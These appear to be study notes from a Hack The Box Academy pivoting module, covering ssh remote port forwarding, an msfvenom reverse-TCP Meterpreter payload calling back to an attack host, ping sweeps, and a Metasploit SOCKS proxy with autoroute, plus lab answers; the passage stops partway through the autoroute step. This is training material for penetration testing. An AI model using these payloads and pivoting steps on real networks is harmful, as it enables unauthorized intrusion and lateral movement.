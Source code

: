 6. Setup the ssh Remote port forwarding
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

7. Execute the Payload

The whole communication process looks like this 
https://academy.hackthebox.com/storage/modules/158/44.png

## Labs 

Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)
    172.16.5.129

What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)
    0.0.0.0

# Meterpreter Tunneling & Port Forwarding


1. Create a payload for ubuntu pivot host

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

2. Start the mu.lti handler on the attack host with the same payload
3. Execute the payload to get the first meterpreter session 

Now can do enumeration with meterpreter, the ping_sweep module, and the portfwd module to forward the RDP port to the attack host
4. In the meterpreter session 
    meterpreter > run post/multi/gather/ping_sweep
    **alternative ping sweep methods**
   1. Unix -> for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
   2. Windows (cmd) -> for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
   3. Windows (powershell) -> 1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}

In cases where the ICMP protocol is blocked, we can run nmap TCP scan to find hosts on the Network. Instead of using the SSH to create a SOCKS proxy we can use metasploit

5. SOCKS Proxy in Metasploit 

    ```
    msf6 > use auxiliary/server/socks_proxy

    msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
    SRVPORT => 9050
    msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
    SRVHOST => 0.0.0.0
    msf6 auxiliary(server/socks_proxy) > set version 4a
    version => 4a
    msf6 auxiliary(server/socks_proxy) > run
    ```
6. Configure the proxychains configuration file
    ```
    socks4 	127.0.0.1 9050
    ```
7. Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.
    ```
    msf6 > use post/multi/manage/autoroute
